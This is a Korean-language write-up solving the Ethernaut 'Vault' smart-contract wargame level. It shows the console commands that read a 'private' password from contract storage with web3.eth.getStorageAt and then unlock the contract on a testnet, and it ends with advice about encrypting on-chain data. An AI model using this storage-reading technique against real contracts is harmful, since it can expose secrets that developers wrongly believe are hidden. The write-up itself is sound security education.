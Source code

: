 https://teberr.notion.site/Ethernaut-Vault-fbe7a13aa0ca4bcca089f064d3e0e4bc

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/640bd226-620b-4651-8685-7464aae0f568/Untitled.png)

> 이번 문제를 해결하기 위해서는 금고를 열어 주세요!
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

# 코드 분석 및 공격

Vault 컨트랙트의 잠금(locked)를 푸는 유일한 방법은 unlock 함수를 실행시키되 private 변수인 password값을 맞추는 방법 밖에는 없다.

![password 실패.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6d37edec-0db6-4edc-b1b7-32a20544f494/password_%EC%8B%A4%ED%8C%A8.png)

```jsx
await contract.locked()
true

await contract.password()
VM644:1 Uncaught TypeError: contract.password is not a function
    at <anonymous>:1:16
(anonymous) @ VM644:1

await contract.password
undefined
```

password값은 private으로 선언이 되어있기 때문에 인스턴스에서 password값을 불러오고자 하면 public인 locked와 다르게 불러올 수 없다.

솔리디티에서는 컨트랙트내에 선언하는 변수가 3가지의 종류가 존재하는데 상태변수,지역변수,전역변수이다. 

이 때 전역변수는 다른 언어와 조금 다른데, 블록체인 전체에서 쓰는 변수로 block.blockhash, block.number, msg.sender, msg.data, msg.value 등과 같이 따로 선언하지 않아도 블록체인에서 사용하기로 이미 약속되어 있는 변수들을 의미한다.

![전역변수.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fd71ba53-2575-4fdb-9ebf-1078865a709d/%EC%A0%84%EC%97%AD%EB%B3%80%EC%88%98.png)

우리가 일반적으로 아는 변수처럼 선언하고 사용하는 변수는 상태변수와 지역변수이다. 지역변수는 함수 내에서 선언되어 함수가 종료되면 사라지는 우리가 아는 평범한 지역변수이다.

상태변수는 컨트랙트의 저장소(storage)에 영구적으로 저장이되는 변수로 컨트랙트에 기록이 되는 변수이다. 여기서 문제가 생기는데 상태변수를 private으로 지정하였더라도 실제 컨트랙트의 storage의 접근하여 그 상태변수 값을 읽어낼 수 있다.   

 

[https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat](https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat) 에서 상태변수를 읽는 함수인 web3.eth.getStorageAt함수에 대한 사용법이 나와있다.

첫 번째로 선언한 상태변수가 locked이고 두번째로 선언한 상태변수가 password이므로 storage에 접근하여 두번째 저장된 값을 불러오면 password값을 알 수 있다.

```jsx
await web3.eth.getStorageAt("0x1941263C1c63eB5F15D3789720cdB1640483DAB7",0)
'0x0000000000000000000000000000000000000000000000000000000000000001'

await web3.eth.getStorageAt("0x1941263C1c63eB5F15D3789720cdB1640483DAB7",1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

await web3.eth.getStorageAt("0x1941263C1c63eB5F15D3789720cdB1640483DAB7",2)
'0x0000000000000000000000000000000000000000000000000000000000000000'
```

첫번째 값(0)은 locked 상태 변수로 True이므로 1이 저장되어있고 

두번째 값(1)은 password 상태 변수 값이다.

세번째 값(2)은 선언도 저장도 안되어있으므로 0으로 아무것도 없는 것을 볼 수 있다.

password 값을 알았으니 이 값으로 unlock 함수를 호출하면 된다.

![unlock.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fab9568b-9387-4f2a-9203-6390d9c33918/unlock.png)

```jsx
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
6dab102ee417c6c670be5febca39e425d7e07f6c.js:1 ⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x56db705678c6ba57ef811864b4170cbf7fff578d5b8e34c91aec6ec4d5c3c03d
6dab102ee417c6c670be5febca39e425d7e07f6c.js:1 ⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x56db705678c6ba57ef811864b4170cbf7fff578d5b8e34c91aec6ec4d5c3c03d
{tx: '0x56db705678c6ba57ef811864b4170cbf7fff578d5b8e34c91aec6ec4d5c3c03d', receipt: {…}, logs: Array(0)}

await contract.locked()
false
```

password값을 넣어서 unlock 함수를 실행시켜 주면 트랜잭션이 발생하고 트랜잭션이 confirmed 된 후 contract의 locked 상태 변수를 확인하면 false로 변한 것을 확인할 수 있다.

![클리어.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b742f618-bef2-4873-82bb-0bb44e586bdc/%ED%81%B4%EB%A6%AC%EC%96%B4.png)

즉 Vault 금고가 이제 잠겨있지 않으므로 인스턴스를 제출해주면 클리어된다.

# 문제 후기

private 변수는 외부 컨트랙트에서 접근하는 것만 막아준다는 점이 핵심이다. private으로 선언된 상태변수와 지역변수는 공개적으로 여전히 접근이 가능하다는 점을 잊어서는 안된다.

데이터 값자체를 private으로 보증하기 위해서는 블록체인에 올리기 전에 암호화를 필수적으로 진행해야 한다. 이런 경우 복호화 키는 체인위에 있으면 다른 사람들이 볼 수 있기 때문에 체인위에 있으면 안된다 . zk-SNARKs는 파라미터를 공개할 필요 없이 누군가가 비밀 파라미터를 가지고 있는지 판별하는 방법을 제공해준다. 

zk-SNARKs는  거래 자체를 증명하는 증명만 브로드캐스팅할 수 있게 해준다. 이를 이용하여 일종의 익명 인증이 가능한데 사용자가 자신의 신원 대신 자신이 소유한 사실을 근거로 하여 리소스에 접근할 수 있도록 허용됐음을 입증할 수 있게 된다. 이를 적용한 대표적인 코인이 익명성으로 유명한 Z캐시다.
